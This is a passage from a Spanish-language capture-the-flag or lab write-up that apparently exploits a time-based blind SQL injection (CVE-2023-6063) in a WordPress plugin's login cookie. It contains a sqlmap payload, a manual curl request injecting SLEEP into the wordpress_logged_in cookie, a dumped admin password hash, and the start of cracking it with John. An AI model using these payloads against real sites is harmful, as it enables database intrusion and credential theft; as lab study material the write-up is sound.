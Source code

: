 ![[Pasted image 20241030132119.png]]

Este sería el `payload` que está enviando `sqlmap` para intentar 

~~~ sql
AND (SELECT 9419 FROM (SELECT(SLEEP(5-(IF(ORD(MID((SELECT IFNULL(CAST(column_name AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x77705f7573657273 AND table_schema=0x776f72647072657373 LIMIT 0,1),2,1))>64,0,5)))))CLKl) AND "wCCa"="wCCa
~~~

![[Pasted image 20241030021501.png]]

`sqlmap` nos dumpeó este registro de la tabla `wp_users`

![[Pasted image 20241030023157.png]]

- Tenemos por un lado el `hash`, que intentaremos crackearlo más adelante
- Vemos el nombre de usuario (`admin`)
- Se nos muestra un dominio para el usuario `admin`, `oledockers.norc.labs`

Agregaremos este nuevo dominio a nuestro archivo `/etc/hosts`

![[Pasted image 20241030131156.png]]

## Explotación Manual

Podemos explotar manualmente esta vulnerabilidad con el siguiente comando, en este caso, se está comprobando si la longitud del nombre de usuario `admin` (asumiendo que existe) es `5`, entonces el servidor esperará 5 segundos para enviarnos la respuesta

~~~ bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: norc.labs' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Content-Length: 21' -H $'Connection: close' \
    -b $'wordpress_logged_in=\" AND (SELECT 100 FROM (SELECT(SLEEP(5)) WHERE (SELECT LENGTH(user_login) FROM wp_users WHERE user_login=\'admin\')=5)TempTable) AND \"a\"=\"a' \
    $'http://norc.labs/wp-login.php'
~~~

En `burpsuite` podemos hacer esto de forma más legible

![[PoC CVE-2023-6063 ‐ Hecho con Clipchamp.mp4]]

`Hashes.com `nos da una pista sobre el algoritmo utilizado para encriptar esta contraseña

![[Pasted image 20241030023917.png]]

## John
Guardamos el hash en un archivo
~~~ bash
echo '$P$BeNShJ/iBpuokTEP2/94.sLS8ejRo6.' >> hash
~~~
